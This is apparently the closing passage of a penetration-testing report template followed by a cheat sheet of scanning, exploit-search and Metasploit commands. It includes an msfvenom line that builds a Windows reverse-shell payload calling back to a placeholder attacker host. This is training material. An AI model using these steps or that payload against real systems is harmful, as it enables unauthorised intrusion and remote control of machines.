 2. **Regular Penetration Testing**
   - Quarterly security assessments
   - Focus on privilege escalation techniques

3. **Security Awareness Training**
   - Educate users about social engineering
   - Implement incident response procedures

## Evidence Files
- exploitation_commands.txt
- metasploit_session_logs.txt
- screenshot_01_ping_response.png
- screenshot_02_nmap_results.png
- screenshot_03_exploit_success.png
- screenshot_04_system_access.png
- screenshot_05_hash_dump.png

## Appendix: Command Reference
[Include complete list of commands used]
```

---

## Quick Reference Guide

### **Essential Command Cheat Sheet:**

#### **Discovery Phase:**
```bash
ping -c 4 target_ip                 # Test connectivity
nmap target_ip                      # Basic port scan
nmap -sV -p port target_ip         # Service version detection
```

#### **Research Phase:**
```bash
searchsploit service_name           # Find exploits
searchsploit -u                     # Update database
searchsploit -t keyword             # Title search only
```

#### **Exploitation Phase:**
```bash
msfconsole -q                       # Start Metasploit
use exploit/path/to/exploit         # Select exploit
set RHOSTS target_ip                # Set target
show options                        # Check settings
exploit                             # Execute attack
```

#### **Payload Generation:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe > payload.exe
```
